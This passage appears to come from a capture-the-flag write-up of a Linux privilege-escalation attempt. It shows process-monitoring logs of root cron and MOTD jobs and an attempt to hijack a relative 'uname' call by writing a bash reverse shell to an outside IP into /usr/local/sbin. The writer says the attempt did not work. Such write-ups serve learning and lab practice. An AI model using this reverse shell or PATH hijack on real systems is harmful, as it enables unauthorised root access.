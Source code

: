 ```bash
```

We see the cron jobs pop up, running `/root/bin/cleanup.pl`:

```
2021/07/15 16:48:01 CMD: UID=0    PID=12568  | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2021/07/15 16:49:01 CMD: UID=0    PID=12569  | /usr/sbin/CRON 
2021/07/15 16:49:01 CMD: UID=0    PID=12570  | /usr/sbin/CRON 
2021/07/15 16:49:01 CMD: UID=0    PID=12571  | /bin/sh -c /root/bin/cleanup.pl >/dev/null 2>&1 
2021/07/15 16:50:01 CMD: UID=0    PID=12572  | /usr/sbin/CRON 
2021/07/15 16:50:01 CMD: UID=0    PID=12573  | /usr/sbin/CRON 
```

I couldn't read the file:

```bash
jkr@writeup:~$ cat /root/bin/cleanup.pl
cat: /root/bin/cleanup.pl: Permission denied
```

`/bin/sh` is absolute, so we can't just make a new file in the path and hijack the root call.

Eventually I logged via in from another terminal tab to checkout the script, and it triggered a Message of the Day:

```bash
2021/07/15 16:50:13 CMD: UID=102  PID=12576  | sshd: [net]       
2021/07/15 16:50:45 CMD: UID=0    PID=12577  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2021/07/15 16:50:45 CMD: UID=0    PID=12578  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2021/07/15 16:50:45 CMD: UID=0    PID=12579  | run-parts --lsbsysinit /etc/update-motd.d 
2021/07/15 16:50:45 CMD: UID=0    PID=12580  | uname -rnsom 
2021/07/15 16:50:45 CMD: UID=0    PID=12581  | sshd: jkr [priv]  
```

`uname` is called without an absolute path - could we write a malicious `uname` binary that gives us a shell?

```bash
jkr@writeup:~$ which bash
/bin/bash
jkr@writeup:~$ echo 'bash -i >& /dev/tcp/10.10.14.211/9001 0>&1' > /usr/local/sbin/uname
```

I tried to trigger this by logging in in another pane, but didn't get a shell.

After some more enumeration, it looks like uname was called by someone else working on the box, and this was just a coincidence after I logged in - it didn't trigger a second time:

```bash
2021/07/15 16:56:20 CMD: UID=102  PID=12611  | sshd: [net]       
2021/07/15 16:56:32 CMD: UID=0    PID=12612  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2021/07/15 16:56:32 CMD: UID=0    PID=12613  | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2021/07/15 16:56:32 CMD: UID=0    PID=12614  | run-parts --lsbsysinit /etc/update-motd.d 
2021/07/15 16:56:32 CMD: UID=0    PID=12615  | 
2021/07/15 16:56:32 CMD: UID=0    PID=12616  | sshd: jkr [priv]  
2021/07/15 16:56:32 CMD: UID=1000 PID=12617  | sshd: jkr@pts/1   
2021/07/15 16:56:32 CMD: UID=1000 PID=12618  | -bash 
2021/07/15 16:56:32 CMD: UID=1000 PID=12619  | -bash 
2021/07/15 16:56:32 CMD: UID=1000 PID=12620  | -bash 
2021/07/15 16:56:32 CMD: UID=1000 PID=12621  | -bash 
2021/07/15 16:57:01 CMD: UID=0    PID=12622  | /usr/sbin/CRON 
2021/07/15 16:57:01 CMD: UID=0    PID=12623  | /usr/sbin/CRON 
```